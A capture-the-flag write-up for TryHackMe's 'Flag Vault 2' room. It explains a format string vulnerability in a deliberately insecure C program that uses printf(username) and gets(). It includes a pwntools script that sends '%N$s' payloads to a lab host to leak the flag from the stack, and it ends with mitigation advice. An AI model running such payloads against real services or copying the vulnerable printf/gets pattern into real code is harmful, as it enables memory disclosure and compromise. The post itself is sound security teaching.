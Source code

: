 ```yaml
---
title: "Flag Vault 2 CTF TryHackMe Walkthrough"
slug: flag-vault-2
layout: post
excerpt_separator: <!--more-->
categories:
  - ctfs
---
```


![](https://raw.githubusercontent.com/j4ke-exe/j4ke.io/refs/heads/main/assets/media/flag-vault-2-banner.jpg){: .center-image }

In this TryHackMe CTF challenge, [Flag Vault 2](https://tryhackme.com/room/hfb1flagvault2), our objective is to analyze and exploit a binary vulnerable to a format string attack. This vulnerability enables attackers to read arbitrary memory addresses or leak data on the stack by abusing the printf function without a format string.

<br>

## Step 1: Analyze Source Code

```c
#include <stdio.h>
#include <string.h>

void print_banner(){
    printf( "  ______ _          __      __         _ _   \n"
        " |  ____| |         \\ \\    / /        | | |  \n"
        " | |__  | | __ _  __ \\ \\  / /_ _ _   _| | |_ \n"
        " |  __| | |/ _` |/ _` \\ \\/ / _` | | | | | __|\n"
        " | |    | | (_| | (_| |\\  / (_| | |_| | | |_ \n"
        " |_|    |_|\\__,_|\\__, | \\ / \\__,_|\\__,_|_|\\__|\n"
        "                  __/ |                      \n"
        "                 |___/                       \n"
        "                                             \n"
        "Version 2.1 - Fixed print_flag to not print the flag. Nothing you can do about it!\n"
        "==================================================================\n\n"
          );
}

void print_flag(char *username){
    FILE *f = fopen("flag.txt","r");
    char flag[200];

    fgets(flag, 199, f);
    //printf("%s", flag);

    printf("Hello, ");
    printf(username);
    printf(". Was version 2.0 too simple for you? Well I don't see no flags being shown now xD xD xD...\n\n");
    printf("Yours truly,\nByteReaper\n\n");
}

void login(){
    char username[100] = "";

    printf("Username: ");
    gets(username);

    // The flag isn't printed anymore. No need for authentication
    print_flag(username);
}

void main(){
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    // Start login process
    print_banner();
    login();

    return;
}
```

### Observations:
- The vulnerable function is `print_flag()`, which accepts an unsanitized user input `username` and passes it directly into `printf()`.
- `gets()` is also bad, considering it allows an attacker to input without bounds checking, which can result in a **buffer overflow**.
- The flag is stored in memory in a buffer called `flag`, but the actual call to `printf("%s", flag)` has been commented out. The idea is that the flag is in memory but inaccessible... or is it?

<br>

## Step 2: Understand the Vulnerability

### What's happening?

The `username` buffer is read using `gets()`--which has no bounds checking (insecure)--and is passed directly to `printf()`:

```c
printf(username);
```

This introduces a **format string vulnerability**, where if user input contains format specifiers (like `%x`, `%s`, `%n`, etc.), they are interpreted by `printf()`, resulting in unwanted behavior.

<br>

### Why is it vulnerable?

Passing user-controlled input directly into `printf()` without a format string leads to undefined behavior, allowing attackers to:

- Leak stack contents via `%x`/`%s`
- Write arbitrary memory using `%n`
- Control execution flow

In this case, the goal is to grab the flag string stored in memory. Since it’s read with `fgets()` and stored in `char flag[200]`, we can try to leak stack positions where `flag` is located.

<br>

## Step 3: Exploit

Below is a simple Python script I wrote to brute-force stack positions with payloads like `%1$s`, resulting in leaking a stack position that contains the flag.

```python
import os
from pwn import *

TARGET_IP = '10.10.180.45'
TARGET_PORT = 1337

for i in range(1, 50):
    payload = f'%{i}$s'.encode()
    print(f'[+] Trying %{i}$s')
    r = remote(TARGET_IP, TARGET_PORT, timeout=5)
    r.recvuntil(b'Username:')
    r.sendline(payload)
    output = r.recvall(timeout=2).decode(errors='ignore')
    r.close()

    if 'THM{' in output:
        print(f'\nFound flag: {output}')
        break
    elif os.name == 'nt':
        os.system('cls')
    else:
        os.system('clear')
```

### Output:
```
[+] Trying %5$s
[+] Opening connection to 10.10.214.114 on port 1337: Done
[+] Receiving all data: Done (145B)
[*] Closed connection to 10.10.214.114 port 1337

Found flag:  Hello, THM{REDACTED}
. Was version 2.0 too simple for you? Well I don't see no flags being shown now xD xD xD...

Yours truly,
ByteReaper
```

<br>

### How does this work?

- `printf(username)` interprets `%5$s` as "read the 5th item on the stack as a pointer to a string".
- This is where the `flag` buffer resides in memory after being populated by `fgets()`.

<br>

---

<br>

## Hotwash

### Format String Vulnerabilities

When user input is passed to `printf()` or similar functions **without a format string**, you expose yourself to:

- **Memory leaks** via `%s`, `%x`
- **Memory writes** via `%n`
- **Control execution flow** (advanced)

### Vulnerable Patterns

```c
printf(username);         // vulnerable
printf("%s", username);   // secure
```

Learn more: [OWASP Format String Vulnerabilities](https://owasp.org/www-community/attacks/Format_string_attack)

{% include note.html content="Regardless of whether you're printing a simple or complex string, always use an explicit format string to mitigate this attack vector." %}

<br>

## Room Created By
- [munra](https://tryhackme.com/p/munra)
- [hadrian3689](https://tryhackme.com/p/hadrian3689)
